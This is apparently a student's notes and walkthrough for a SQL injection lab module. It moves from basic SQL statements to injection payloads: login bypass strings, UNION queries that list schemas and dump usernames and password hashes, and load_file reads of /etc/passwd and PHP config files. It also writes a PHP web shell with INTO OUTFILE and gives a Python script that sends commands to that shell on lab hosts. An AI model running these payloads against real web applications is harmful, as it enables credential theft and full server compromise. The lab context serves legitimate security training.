# SQL Injection

## General

SQL means "Structured Query Language".

2 types of database :

* Relationnal databases
* Non-relationnal databases

RDBMS (Relational Database Management System) databases :

* Microsoft Access
* MySQL
* SQL Server
* PostgreSQL

NoSQL database is an alias of non-relational database. The structure looks like a json object :

* Key-value
* Document-based
* Wide-column
* Graph

MongoDB is a NoSQL database.

On Linux, the tool to work with MySQL is `mysql`. You can connect the terminal to the service with the flags `-u` for username and `-p` for password.

```bash
mysql -u <username> -p
# if you use this command, the password is storied in cleartext 
# in the .bash_history file
mysql -u <username> -p <password>
```

## Statements

### INSERT

```sql
INSERT INTO table_name VALUES (column1_value, column2_value, column3_value, ...);
INSERT INTO logins VALUES(1, 'admin', 'p@ssw0rd', '2020-07-02');
​
INSERT INTO table_name(column2, column3, ...) VALUES (column2_value, column3_value, ...);
INSERT INTO logins(username, password) VALUES('administrator', 'adm1n_p@ss');
​
INSERT INTO logins(username, password) VALUES ('john', 'john123!'), ('tom', 'tom123!');
```

### SELECT

```sql
SELECT * FROM table_name;
SELECT * FROM logins;
​
SELECT column1, column2 FROM table_name;
SELECT username,password FROM logins;
```

### DROP

```sql
DROP TABLE logins;
```

### ALTER

```sql
ALTER TABLE logins ADD newColumn INT;                       -- add column
ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn;    -- rename
ALTER TABLE logins MODIFY oldColumn DATE;                   -- edit datatype
ALTER TABLE logins DROP oldColumn;                          -- remove column
```

### UPDATE

```sql
UPDATE table_name SET column1=newvalue1, column2=newvalue2, ... WHERE <condition>;
UPDATE logins SET password = 'change_password' WHERE id > 1;
```

***

## Query Results

### ORDER BY

```sql
SELECT * FROM logins ORDER BY password;
SELECT * FROM logins ORDER BY password DESC;            -- descending
SELECT * FROM logins ORDER BY password DESC, id ASC;    -- ascending
```

### LIMIT

```
SELECT * FROM logins LIMIT 2;
SELECT * FROM logins LIMIT 1, 2;    -- add offset
```

### WHERE

```
SELECT * FROM table_name WHERE <condition>;
SELECT * FROM logins WHERE id > 1;
SELECT * FROM logins where username = 'admin';
SELECT * FROM logins WHERE username LIKE 'admin%';	-- "%" means "matches all characters after"
SELECT * FROM logins WHERE username like '___';		-- "_" means "matches exactly one character after"
```

## Operators

### AND

```
SELECT 1 = 1 AND 'test' = 'test';
SELECT 1 = 1 AND 'test' = 'abc';
```

### OR

```
SELECT 1 = 1 OR 'test' = 'abc';
SELECT 1 = 2 OR 'test' = 'abc';
```

### NOT

```
SELECT NOT 1 = 1;
SELECT NOT 1 = 2;
```

### Symbols

```
SELECT 1 = 1 && 'test' = 'abc';		-- and
SELECT 1 = 1 || 'test' = 'abc';		-- or
SELECT 1 != 1;						-- not
```

Examples in queries :

```
SELECT * FROM logins WHERE username != 'john';
SELECT * FROM logins WHERE username != 'john' AND id > 1;
SELECT * FROM logins WHERE username != 'tom' AND id > 3 - 2;
SELECT * FROM logins WHERE username != 'tom' AND id > 1;
select * from logins where username != 'tom' AND id > 3 - 2;
```

## SQL in WebApps

```php
// connection
$conn = new mysqli("localhost", "root", "password", "users");
```

```php
// basic
$query = "select * from logins";
$result = $conn->query($query);

while($row = $result->fetch_assoc() ){
	echo $row["name"]."<br>";
}
```

```php
// add dynamic input in query
$searchInput =  $_POST['findUser'];
$query = "select * from logins where username like '%$searchInput'";
$result = $conn->query($query);

while($row = $result->fetch_assoc() ){
	echo $row["name"]."<br>";
}
```

## Typed of SQL injections

* In-band : outputs directly on the front end
  * Union based
  * Error based
* Blind : checks the return of the query
  * Boolean Based
  * Time Based
* Out-of-band

## Discover SQLi

Try to throw an exception by passing one of these characters :

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

```sql
SELECT * FROM logins WHERE username=''' AND password = 'something';
```

### OR injection

The basic query is :

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

Update username with `admin' or '1'='1` :

```sql
SELECT * FROM logins WHERE username='admin' OR '1'='1' AND password = 'notPassword';
```

`AND` is executed before `OR` thus :

1. `'1'='1' AND password='notPassword'` is false
2. Then `username='admin' OR false`

If the username is `admin`, it returns `true` and the query is accepted.

To bypass the authentication, updates the `password` value by `notPassword' OR '1'='1`:

```sql
SELECT * FROM logins WHERE username='notAdmin' AND password = 'notPassword' OR '1'='1';
```

The execution is :

1. `username='notAdmin' AND password='notPassword'` is false
2. Then `false OR '1'='1'` is true

### Using comments

There are several comment symbols :

| Payload | URL Encoded |
| ------- | ----------- |
| `--`    |             |
| `#`     | `%23`       |
| `/**/`  |             |

```sql
SELECT username FROM logins; -- Selects usernames from the logins table 
SELECT * FROM logins WHERE username = 'admin'; # You can place anything here AND password = 'something'
```

If you pass SQLi in the URL, you must change the `#` by `%23` (url encoded).

Auth bypass with comments :

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

Use case with parenthesis and latch to disable `admin` authentication :

```sql
select * from logins where (username='admin' and id > 1) and password='c13ze56dz16e51z6ef1f51';		-- wrong credentials : failed
select * from logins where (username='admin' and id > 1) and password='c13ze56dz16e51z6ef1f51';		-- valid credentials : failed because admin has id = 1
select * from logins where (username='tom' and id > 1) and password='c13ze56dz16e51z6ef1f51';		-- valid credentials : success
```

Input the username `admin')-- -` to bypass authentication :

```sql
select * from logins where (username='admin')-- ' and id > 1) and password='c13ze56dz16e51z6ef1f51';
```

### Union clause

* Combine results with the same number of columns

```sql
SELECT * FROM ports UNION SELECT * FROM ships;
```

The data types of the selected columns on all positions should be the same.

* Combine tables with different numbers of columns (but contain even column !)

```sql
SELECT * FROM products WHERE product_id = 'user_input'
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '
```

Here, the tables contain both `username` and `password`.

* Combine tables with un-even columns

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords
UNION SELECT username, 2, 3, 4 from passwords-- -'
SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- -'
```

You want UNION `products` and `passwords` tables but `passwords` contains only 1 column. You must fill the other columns with static values like `2, 3, 4`.

By injection, discover how many columns has the table.

```sql
' order by 1-- -
' order by 2-- -
' order by 3-- -
' order by 4-- -
' order by 5-- -	ERROR
```

The table has 4 columns. Check the displayed columns.

```sql
cn' UNION select 1,2,3-- -
cn' UNION select 1,2,3,4-- -
cn' UNION select 1,@@version,3,4-- -
```

the command `@@version` shows the database version.

### How to know if you're using MySQL?

| Payload          | When to Use                      | Expected Output                                   | Wrong Output                                              |
| ---------------- | -------------------------------- | ------------------------------------------------- | --------------------------------------------------------- |
| SELECT @@version | When we have full query output   | MySQL Version 'i.e. 10.3.22-MariaDB-1ubuntu1'     | In MSSQL it returns MSSQL version. Error with other DBMS. |
| SELECT POW(1,1)  | When we only have numeric output | 1                                                 | Error with other DBMS                                     |
| SELECT SLEEP(5)  | Blind/No Output                  | Delays page response for 5 seconds and returns 0. | Will not delay response with other DBMS                   |

```sql
n' union select 1,2,3,@@version-- -
```

You can list all databases in by selecting the `schema_name` column in the `information_schema.schemata` table.

```sql
n' union select 1,schema_name,3,4 from information_schema.schemata-- -
n' union select 1,2,3,database()-- -
n' union select 1,table_name,table_schema,4 from information_schema.tables where table_schema!='information_schema'-- -
cn' union select 1,column_name,table_name,table_schema from information_schema.columns where table_name='credentials'-- -
cn' union select 1,username,password,4 from dev.credentials-- -
```

### Identify the database user

You have 3 methods to dump the database users.

```sql
cn' union select 1,user(),3,4-- -
cn' union select 1,current_user(),3,4-- -
cn' union select 1,user,3,4 from mysql.user-- -
```

Check if you have admin privileges.

```sql
cn' union select 1,super_priv,3,4 from mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
cn' union select 1,grantee,privilege_type,4 from information_schema.user_privileges-- -
```

### Load file

```sql
cn' union select 1,2,load_file("/etc/passwd"),4-- -
```

<figure><figcaption></figcaption></figure>

### Write file

```sql
cn' union select 1,variable_name,variable_value,4 from information_schema.global_variables where variable_name="secure_file_priv"-- -
```

If `secure_file_priv` is :

* `NULL`, you cannot read/write from any directory.
* `EMPTY`, you can read/write in any location.

If the `secure_file_priv` is `EMPTY`, I can run the next instructions.

```sql
cn' union select 'test1','test2','test3','test4' into outfile '/tmp/test.txt'-- -
cn' union select 1,load_file("/tmp/test.txt"),3,4-- -
```

You have a have acces to your file, and inject shell

```sql
cn' union select 1,"file written successfully!",2,3 into outfile "/var/www/html/proof.txt"-- -
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

## Questions

1. Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?

```sql
mysql -h 46.101.81.60 -P 31605 -u root -p
```

<figure><figcaption></figcaption></figure>

2. What is the department number for the 'Development' department ?

```
use employees;
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

3. What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?

<figure><figcaption></figcaption></figure>

4. In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?

<figure><figcaption></figcaption></figure>

5. Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

6. Login as the user with the id 5 to get the flag.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

7. Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.

<figure><figcaption></figcaption></figure>

8. Use a Union injection to get the result of 'user()'

<figure><figcaption></figcaption></figure>

9. What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?

```sql
cn' union select 1,schema_name,3,4 from information_schema.schemata-- -
cn' union select 1,table_name,3,4 from information_schema.tables-- -
cn' union select 1,column_name,3,4 from information_schema.columns where table_name='users'-- -
cn' union select 1,username,password,4 from ilfreight.users-- -
```

<figure><figcaption></figcaption></figure>

10. We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

```sql
cn' union select 1,load_file("/var/www/html/search.php"),3,4-- -
cn' union select 1,load_file("/var/www/html/config.php"),3,4-- -
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

11. Find the flag by using a webshell.

Inject this payload into the form.

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/webshell.php'-- -
```

Execute the Python file like this `python3 script.py ls -la`

```python
import requests,sys;

command = " ".join(sys.argv[1:])
request = requests.Session()
response = request.get("http://46.101.94.35:31086/webshell.php?0=" + command)
print(response.text, end="")
```

Once you find the file, copy it into the web directory.

```sql
cn' union select "",load_file("/var/www/flag.txt"),"","" into outfile "/var/www/html/flagcopy.txt"-- -
```

And go to [http://46.101.94.35:31086/flagcopy.txt](http://46.101.94.35:31086/flagcopy.txt).

<figure><figcaption></figcaption></figure>

12. Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

***

1. Bypass authentication

```sql
' or '1'='1'-- -
```

2. Check the number of columns queried

```sql
' order by 5-- -
```

3. Find the columns displayed on the web page

```sql
' union select 1,2,3,4,5-- -
```

4. Show the database version

```sql
' union select 1,@@version,3,4,5-- -
```

5. Check user permissions

```sql
' union select 1,user,super_priv,4,5 from mysql.user-- -
```

6. Check files permissions

```sql
' union select 1,grantee,privilege_type,4,5 from information_schema.user_privileges-- -
```

7. Create a web shell

```sql
' union select "","<?php system($_REQUEST[0]); ?>","","","" into outfile "/var/www/html/dashboard/webshell.php"-- -
```

8. Execute python script to navigate through web shell

```python
import requests,sys;

command = " ".join(sys.argv[1:])
request = requests.Session()
response = request.get("http://138.68.134.63:32055/dashboard/webshell.php?0=" + command)
print(response.text, end="")
```

10. Load the flag on the page web

```sql
' union select "",load_file("/flag_cae1dadcd174.txt"),"","",""-- -
```
